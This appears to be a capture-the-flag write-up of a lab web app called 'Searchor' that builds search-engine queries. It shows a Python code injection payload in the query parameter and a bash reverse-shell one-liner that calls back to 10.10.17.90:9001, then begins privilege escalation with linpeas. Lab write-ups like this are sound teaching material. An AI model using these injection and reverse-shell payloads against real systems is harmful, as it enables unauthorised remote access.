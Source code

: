 
### Web

Let's navigate to the web page.

![](1.png)

The website is called `Searchor` and it helps generate search queries for different search engines.

If we scroll to the bottom we can choose the search engine and type what we want to search for.

![](2.png)

Let's search for something and intercept the request with burp.

![](3.png)

There are two parameters used: `engine` and `query`.

In the response we can see that this is a python application and using `Werkzeug` as a web server, which means that the Apache we saw earlier acts as a proxy.

## **Foothold**

Since this is a python application, let's try injecting python code in the parameters.

![](4.png)

We managed to get code execution using the following payload:

```python
')+__import__('os').system('sleep 5')#
```

>The plus sign has to be url encoded.

Now let's get a reverse shell:

```python
')%2b__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.17.90/9001 0>&1"')#
```
>The special characters(>&) have to be url encoded

![](5.png)

![](6.png)

## **Privilege Escalation**

### svc --> root

Now we run `linpeas`.

![](7.png)
